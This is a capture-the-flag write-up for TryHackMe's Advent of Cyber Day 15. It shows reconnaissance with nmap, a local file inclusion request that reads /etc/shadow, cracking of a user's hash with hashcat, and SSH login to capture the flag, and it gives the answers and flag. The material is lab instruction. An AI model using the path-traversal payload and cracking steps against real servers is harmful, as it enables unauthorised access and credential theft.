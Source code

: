 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 15
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
### References
* Spring, B. (2019, December 14). Local File Inclusion. TryHackMe Blog. https://blog.tryhackme.com/lfi/
## Reconnaissance
```bash
$ sudo nmap -sV -sC -vv 10.10.129.142
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9a:03:45:f5:5d:44:d3:18:82:6b:e7:4a:bd:30:ad:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDJZRhGza0LfrMtyxnABnZY4ZUVbKfUb4HZO5rJTeR9tzCn0rFswbrQC1MtvB1Imi55zx3LPjc1WBRhpJ3IGdkdcAEfO1UTzCSkaI+gVa4J+/oFmhSg3xchG8/qE1QufncW9LnEKpUP9EM/CxSvCRpLbDAtVQdTjhYfJMK78ixiYHhAsrbw1crkhZyvYBo19y61EDoiL8ZNTkgFx4SrqlJIfcsAxLgat9a8Bf2jXacbuqv0R7vM3sVEQvgrEK7SqwSKgcxutVOs2gkPgsKL6vMtsytYCMdDnibVViEioli8KgBTkYjqKTXkzaGbeno2w0yDJbt6syJjOexzl7j96TMj
|   256 1e:b5:f5:d0:8b:da:82:3c:f8:aa:04:83:90:0a:5d:c2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJdNinV/k0bYfSVBBs1LZX3L9iYv/axqqX+M/AW20YrY7jl5oMA8g3QiSzsL021jURX5d7FIoIg/TrGvBZtjQdQ=
|   256 64:5c:b2:04:60:af:63:e7:52:7b:f5:e3:30:05:7e:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDSuT1x7x4fxAHZjoBkQ9LBWvL6HkoL9LZY/iAc7RRCd
80/tcp open  http    syn-ack ttl 61 Node.js (Express middleware)
|_http-favicon: Unknown favicon MD5: DBC69DB56435575CDC5CF45C96045958
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Public Notes
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## What is Charlie going to book a holiday to?
* From the website's homepage:
> ### Note 3
> #### To do list:
> * Take Santa sleigh in for an MOT
> * Improve security on file inclusion
> * Go food shopping
> * Book holiday to Hawaii

**Answer**: `Hawaii`
## Read `/etc/shadow` and crack Charlie's password.
1. With Burpsuit, proxy the website and look for a request to the `/notes/note1.txt` file (file system path `/` are encoded to `%2f` in URLs):
```http
GET /get-file/views%2fnotes%2fnote1.txt HTTP/1.1
Host: 10.10.210.111
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.10.210.111/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
2. Modify the request path to point to `/etc/shadow`:
```http
GET /get-file/%2fetc%2fshadow HTTP/1.1
Host: 10.10.210.111
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://10.10.210.111/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```
3. `/etc/shadow`'s contents will be rendered on the webpage:
```
root:*:18152:0:99999:7:::
daemon:*:18152:0:99999:7:::
bin:*:18152:0:99999:7:::
sys:*:18152:0:99999:7:::
sync:*:18152:0:99999:7:::
games:*:18152:0:99999:7:::
man:*:18152:0:99999:7:::
lp:*:18152:0:99999:7:::
mail:*:18152:0:99999:7:::
news:*:18152:0:99999:7:::
uucp:*:18152:0:99999:7:::
proxy:*:18152:0:99999:7:::
www-data:*:18152:0:99999:7:::
backup:*:18152:0:99999:7:::
list:*:18152:0:99999:7:::
irc:*:18152:0:99999:7:::
gnats:*:18152:0:99999:7:::
nobody:*:18152:0:99999:7:::
systemd-timesync:*:18152:0:99999:7:::
systemd-network:*:18152:0:99999:7:::
systemd-resolve:*:18152:0:99999:7:::
systemd-bus-proxy:*:18152:0:99999:7:::
syslog:*:18152:0:99999:7:::
_apt:*:18152:0:99999:7:::
lxd:*:18152:0:99999:7:::
messagebus:*:18152:0:99999:7:::
uuidd:*:18152:0:99999:7:::
dnsmasq:*:18152:0:99999:7:::
sshd:*:18152:0:99999:7:::
pollinate:*:18152:0:99999:7:::
ubuntu:!:18243:0:99999:7:::
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
```
4. Use `hashcat` to crack Charlie's password:
```bash
$ hashcat -a 0 -m 1800 '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' rockyou.txt
$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:password1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0K...GOyhL.
Time.Started.....: Wed Jun 30 12:00:11 2021 (3 secs)
Time.Estimated...: Wed Jun 30 12:00:14 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:     1098 H/s (7.32ms) @ Accel:8 Loops:16 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3072/14344384 (0.02%)
Rejected.........: 0/3072 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#2....: 123456 -> dangerous
```

**Answer**: `password1`
## What is `flag1.txt`?
* Connect to Charlie's server with SSH using the previously found credentials:
```bash
$ ssh charlie@10.10.210.111
charlie@10.10.210.111's password: password1
charlie@ip-10-10-210-111:~$ ls
flag1.txt
charlie@ip-10-10-210-111:~$ cat flag1.txt 
THM{4ea2adf842713ad3ce0c1f05ef12256d}
```
**Flag**: `THM{4ea2adf842713ad3ce0c1f05ef12256d}`